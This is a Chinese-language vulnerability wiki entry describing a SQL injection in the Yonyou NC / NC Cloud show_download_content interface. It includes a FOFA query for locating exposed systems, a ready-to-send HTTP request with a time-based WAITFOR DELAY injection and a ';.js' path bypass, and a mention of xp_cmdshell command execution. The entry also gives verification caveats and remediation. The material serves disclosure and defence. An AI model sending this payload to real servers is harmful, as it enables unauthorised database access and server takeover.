


# 用友NC/NC Cloud show_download_content id SQL 注入

## 条目说明

- 对象与具体问题：用友NC/NC Cloud；show_download_content id SQLi
- 版本、配置及部署条件：SQL Server延时；版本未知
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标题NC及Cloud而影响版本仅Cloud产品名，应拆产品/版本矩阵
- WAITFOR支持延时SQLi候选，xp_cmdshell RCE需另列权限条件
- 分号路径绕过条件/固定版本/在野依据欠缺，HTTP未围栏

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

用友NC及NC Cloud /ebvp/infopub/show_download_content接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## 影响版本

用友-NC-Cloud

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="用友-NC-Cloud"

POC/EXP：

```http
GET /ebvp/infopub/show_download_content;.js?id=1';WAITFOR+DELAY+'0:0:6'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN
Connection: keep-alive
```








## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
